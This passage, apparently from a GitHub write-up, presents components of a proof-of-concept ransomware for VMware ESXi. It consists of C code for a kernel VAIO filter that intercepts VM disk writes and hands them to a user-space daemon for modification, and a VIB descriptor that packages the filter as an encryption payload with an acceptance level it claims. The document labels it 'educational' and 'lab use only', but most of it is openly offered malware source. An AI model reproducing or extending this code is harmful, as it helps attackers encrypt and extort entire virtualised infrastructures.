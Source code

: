 #### I/O Intercept Mechanism
```c
static VMK_ReturnStatus MaliciousFilter_OnWrite(VAIO_Request *ioReq)
{
    // This function is called whenever a VM issues a write I/O
    uint8_t *data = ioReq->buffer;    // pointer to the write buffer
    uint32_t dataLen = ioReq->length;
    
    // Allocate and set up a PendingRequest struct
    struct PendingRequest *req = vmk_HeapAlloc(vmk_SystemHeap, sizeof(*req));
    req->id = next_request_id++;
    req->length = dataLen;
    req->buffer = vmk_HeapAlloc(vmk_SystemHeap, dataLen);
    memcpy(req->buffer, data, dataLen);  // copy original write data
    
    // Place the request in the pending queue for user-space to pick up
    spin_lock_irq(&req_queue_lock);
    // Add to end of pending list
    req->next = NULL;
    if (pending_head == NULL) {
        pending_head = req;
    } else {
        struct PendingRequest *tail = pending_head;
        while (tail->next) tail = tail->next;
        tail->next = req;
    }
    spin_unlock_irq(&req_queue_lock);
    
    // Wait for the user-space daemon to process and signal completion
    wait_event_interruptible(req->wait_q, req->completed == true);
    
    // Copy modified data back into the I/O request buffer
    memcpy(data, req->buffer, req->length);
    
    return VAIO_COMPLETE_IO;  // indicates we handled it and data is modified
}
```



### 3. VIB Packaging and Deployment

Finally... to ship our very scary payload, we bundle it all as a vSphere Installation Bundle (VIB):

#### VIB Descriptor
```xml
<vib version="8.0">
    <type>bootbank</type>
    <name>ESXiEncryptFilter</name>
    <version>1.0.0-1</version>
    <vendor>EduLab</vendor>
    <summary>Educational ESXi Ransomware Filter (Encryption I/O Filter)</summary>
    <description>Proof-of-concept VAIO filter that encrypts VM disk writes (lab use only).</description>
    <acceptance-level>VMwareAccepted</acceptance-level>
    <live-install-allowed>true</live-install-allowed>
    <live-remove-allowed>true</live-remove-allowed>
    <payloads>
        <payload name="ESXiEncryptFiles" type="tgz"></payload>
    </payloads>
</vib>
```
